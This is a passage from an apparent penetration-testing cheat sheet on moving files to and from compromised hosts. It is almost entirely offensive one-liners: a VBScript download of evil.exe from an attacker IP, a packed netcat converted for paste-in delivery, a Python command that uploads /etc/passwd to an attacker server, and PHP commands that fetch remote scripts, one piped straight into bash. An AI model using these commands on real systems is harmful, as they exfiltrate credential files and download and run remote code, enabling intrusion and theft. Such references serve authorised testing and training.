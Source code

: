 ```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

## Debug.exe

The `debug.exe` program not only allows inspection of binaries but also has the **capability to rebuild them from hex**. This means that by providing an hex of a binary, `debug.exe` can generate the binary file. However, it's important to note that debug.exe has a **limitation of assembling files up to 64 kb in size**.

```bash
# Reduce the size
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

Then copy-paste the text into the windows-shell and a file called nc.exe will be created.

* [https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html](https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html)

## DNS

* [https://github.com/62726164/dns-exfil](https://github.com/62726164/dns-exfil)

## Python
###  Python  - Download
```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")' # python 2

python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")' # ptyhon 3
```
###  Python  - Upload
```bash
python3 -m uploadserver # on attacker
#### Uploading a File Using a Python One-liner
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
## PHP
### PHP Download 
```bash
# with File_get_contents()
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

#  with Fopen()
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

#  Download a File and Pipe it to Bash (similar to the fileless)
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
  # Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.
```
